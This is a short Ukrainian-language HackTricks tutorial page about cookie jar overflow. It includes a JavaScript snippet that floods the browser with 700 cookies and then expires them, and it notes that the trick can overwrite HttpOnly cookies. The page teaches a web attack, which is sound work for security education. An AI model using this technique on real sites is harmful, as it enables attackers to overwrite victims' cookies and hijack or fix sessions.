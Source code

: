{{#include ../../banners/hacktricks-training.md}}

Браузери мають **обмеження на кількість кукі** , які вони можуть зберігати для сторінки. Тоді, якщо з якоїсь причини вам потрібно **зробити кукі невидимими**, ви можете **переповнити банку з кукі**, оскільки найстаріші з них будуть видалені першими:
```javascript
// Set many cookies
for (let i = 0; i < 700; i++) {
document.cookie = `cookie${i}=${i}; Secure`
}

// Remove all cookies
for (let i = 0; i < 700; i++) {
document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`
}
```
Зверніть увагу, що сторонні куки, які вказують на інший домен, не будуть перезаписані.

> [!CAUTION]
> Цей напад також можна використовувати для **перезапису HttpOnly куків, оскільки ви можете видалити їх, а потім скинути з потрібним вам значенням**.
>
> Перевірте це в [**цьому пості з лабораторією**](https://www.sjoerdlangkemper.nl/2020/05/27/overwriting-httponly-cookies-from-javascript-using-cookie-jar-overflow/).

{{#include ../../banners/hacktricks-training.md}}
